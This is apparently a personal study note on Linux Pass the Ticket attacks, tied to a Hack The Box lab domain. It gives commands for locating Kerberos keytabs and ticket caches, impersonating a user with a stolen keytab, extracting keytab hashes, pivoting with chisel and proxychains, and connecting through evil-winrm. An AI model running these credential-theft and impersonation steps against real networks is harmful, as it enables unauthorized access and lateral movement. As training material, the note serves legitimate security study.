 Linux Pass the Ticket
#######################

Date: 2024-11-27 12:52

Status:

Files
**********

Tickets are almost always stored in the ``/tmp`` file system
``ls -ls /tmp`` The ticket is also stored in the environmental variable
name KRB5CCNAME You authenticate to a domain controller with the
:ref:`keytab` /etc/krb5.keytab is root readable only, **if you
have root you can use this** A Linux script can use a keytab in
automation on Windows.

Finding Keytab files
*********************

example 1: using find

.. code-block:: console

   find / -name *keytab* -ls 2>/dev/null

Example 2: using crontab

.. code-block:: console

   crontab -l

Commands
===========

Example 1: To see if a Linux machine is using AD

.. code-block:: console

   realm list

Example 2: realm is not available

.. code-block:: console

   ps -ef | grep -i "winbind\|sssd"

Example 3: using env to find the krb5 cache

.. code-block:: console

   env | grep -i krb5

Example 4: Listing keytab file information

.. code-block:: console

   klist -k -t /opt/specialfiles/carlos.keytab

Impersonating a user
=====================

example 1: Using kinit and have the ability to read someone else’s
keytab

.. code-block:: console

   klist
   kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
   klist

Example 2: Using SMB to access information

.. code-block:: console


   smbclient //dc01/carlos -k -c ls

Keytab extraction
=====================

Example 1: using :ref:`keytabextract.py`

.. code-block:: console

   python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab

Linux Attack tools
=====================

Example 1: Linux needs to pivot through WS01 to get to the domain
controller

.. mermaid:: ../mmd/pass-the-ticket.mmd

Step 0: Add relevant windows hosts that cannot be resolved to
``/etc/hosts`` Step 1: Install :ref:`proxychains` and add
to your ``/etc/proxychains.conf`` file

.. code-block:: console

   [ProxyList]
   socks5 127.0.0.1 1080

Step 2:
:ref:`chisel` #Example 1 Run a server on port 1080
Step 3:
:ref:`chisel` Example 2 Run a client to connect to the server
Step 4: set your KRB5CCNAME env

.. code-block:: console

   Temen@htb[/htb]$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133

To use evil-winrm with Kerberos, you need to install the krb5-user
program

.. code-block:: console

   sudo apt install krb5-user -y

The configuration for this program is ``/etc/krb5.conf`` Example:
``cat /etc/krb5.conf``

.. code-block:: console

   [libdefaults]
           default_realm = INLANEFREIGHT.HTB

   <SNIP>

   [realms]
       INLANEFREIGHT.HTB = {
           kdc = dc01.inlanefreight.htb
       }

Step 5: Using evil-winrm and kerberos authentication
:ref:`evil-winrm` Using Kerberos authentication

:ref:`proxychains`

:ref:`chisel`

:ref:`Linikatz`


References
*****************
https://academy.hackthebox.com/module/147/section/1657
